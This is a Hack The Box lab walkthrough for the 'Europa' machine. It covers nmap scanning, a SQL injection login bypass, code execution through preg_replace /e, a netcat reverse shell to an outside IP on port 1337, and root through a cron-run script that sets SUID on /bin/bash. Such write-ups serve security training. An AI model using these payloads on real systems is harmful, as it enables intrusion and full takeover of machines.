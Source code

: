 # [Europa](https://app.hackthebox.com/machines/Europa)

```bash
nmap -p- --min-rate 10000 10.10.10.22 -Pn 
```

![alt text](img/image.png)

After detection of open ports, let's do greater nmap scan here.

```bash
nmap -A -sC -sV -p22,80,443 10.10.10.22 -Pn  
```

![alt text](img/image-1.png)


From nmap scan result, I see that ip address is resolved into `europacorp.htb` domain, that's why I add this into `/etc/hosts` file.

I also add  `www.europacorp.htb` and `admin-portal.europacorp.htb` into `/etc/hosts` file.


While I open `admin-portal`, I see authentication(login) system.

![alt text](img/image-2.png)


Let's inject some `SQLI` payloads to bypass authentication.

![alt text](img/image-3.png)


I already bypassed authentication by adding below payload to `username` field.
```bash
email=admin%40europacorp.htb';--+-&password=test
```
![alt text](img/image-4.png)

I am on the Dashboard.

![alt text](img/image-5.png)

While looking at web application, I see `tools.php` and enter input as shown here.

![alt text](img/image-6.png)


I guess that there should be `regex` for ip address.

As this `php` application, I search `php` functions which implements `regex`.

That's `preg_replace.php`.


I found this [blog](https://captainnoob.medium.com/command-execution-preg-replace-php-function-exploit-62d6f746bda4).


Let's inject and see that this worked or not.
```bash
pttern=%2Fx%2Fe&ipaddress=system("id")&text
```

![alt text](img/image-7.png)


As you `id` command worked, let's inject `reverse shell` payload into here.

```bash
system("rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.18+1337+>/tmp/f")
```

![alt text](img/image-9.png)


Hola I got reverse shell from port `1337`.

![alt text](img/image-10.png)


Let's make interactive shell.
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo;fg 
export TERM=xterm
export SHELL=bash
```

![alt text](img/image-11.png)


For `Privilege Escalation`, I just look at cronjobs by reading `/etc/crontab` file.

![alt text](img/image-12.png)


I see `clearlogs` binary, let's analyze this by running.

![alt text](img/image-13.png)


From here, I see that it calls `logcleared.sh` script but it's not valid on our system.

Let's write our malicious script into here which copies `/bin/bash` file and give `SUID` binary to this copied `bash` file.

```bash
echo -e '#!/bin/bash\n\nsudo chmod 4777 /bin/bash' > /var/www/cmd/logcleared.sh
```

![alt text](img/image-14.png)


Let's execute `clearlogs` binary to call `logcleared.sh` script.

![alt text](img/image-15.png)


user.txt

![alt text](img/image-17.png)

root.txt

![alt text](img/image-16.png)